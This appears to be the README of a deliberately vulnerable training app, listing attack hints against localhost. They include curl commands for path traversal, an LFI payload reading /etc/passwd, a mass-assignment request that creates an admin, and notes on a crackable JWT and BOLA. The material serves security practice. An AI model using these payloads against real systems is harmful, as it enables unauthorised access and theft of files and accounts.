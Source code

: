 # Getting Started

### Tips for admin app

- login page always will `Username or password is incorrect` return
- 403 - `curl http://localhost/admin/123/.%2e/data` (data, help, password endpoints)
- Path traversal - `curl http://localhost/admin/123/.%2e/users`
- Path traversal - `curl http://localhost/admin/123/.%2e/configuration`
- LFI - `curl http://localhost/admin/123/.%2e/configuration?file=/../../../../../../../etc/passwd`

### Tips for api app

* You can auth from admin app creds
* JWT token is crackable by jwt-tool and common list
* `CreateUserRequest` - give possibility to create a new admin with MassAssignment `curl -X POST -d '{"username": "test1", "password": "test", "admin": true}'`
* Added `/actuator` for future secondary context findings
* Possible to BOLA on cards `/cards` PUT request 
* Excessive Data Exposure on DELETE request `/cards`
